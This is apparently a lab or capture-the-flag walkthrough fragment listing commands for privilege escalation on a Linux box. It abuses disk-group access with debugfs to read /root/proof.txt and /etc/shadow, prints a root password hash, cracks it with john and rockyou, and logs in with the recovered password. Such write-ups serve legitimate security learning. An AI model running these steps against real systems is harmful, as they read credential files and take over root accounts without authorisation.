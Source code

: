 -  ls \-l /dev
-  find /dev \-group disk 
-  df \-h
-  debugfs /dev/mapper/ubuntu\-\-vg\-ubuntu\-\-lv                -  wherever filesystem is installed 
-  cd /root
-  cat proof\.txt
-  cat /etc/shadow

root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw\.XcU\.Q8n1YO05\.a/4\.D/x4ojQAkPnv/v7Qrw7Ici7\.hs0sZiC\.:19453:0:99999:7:::

john root\.hash \-\-wordlist=/usr/share/wordlists/rockyou\.txt
explorer         \(root\)

-  su root
-  root:explorer

#